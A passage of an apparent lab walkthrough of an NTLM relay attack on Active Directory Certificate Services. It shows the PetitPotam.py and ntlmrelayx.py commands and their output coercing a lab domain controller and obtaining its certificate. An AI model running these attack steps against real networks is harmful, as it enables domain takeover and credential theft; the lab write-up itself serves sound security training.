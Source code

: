 If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.

## Run PetitPotam.py

On another window, let's run [PetitPotam.py](https://github.com/topotam/PetitPotam).

This tool will help to coerce the DC to authenticate to our host where ntlmrelayx.py is running.

```shell-session
jadu101@htb[/htb]$ python3 PetitPotam.py 172.16.5.225 172.16.5.5       
                                                                                 
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:172.16.5.5[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!

[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

Once we successfully launch PetitPotam.py, we will see a login request and obtained base64 encoded certificate for the DC on our ntlmrelayx.py window:

```shell-session
jadu101@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20211013.152215.3fe2d73a-py3.9.egg/impacket
[*] Protocol Client DCSYNC loaded..
<SNIP>

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIStQIBAzCCEn8GCSqGSIb3DQEHAaCCEnAEghJsMIISaDCCCJ8GCSqGSIb3DQEHBqCCCJAw<SNIP>
```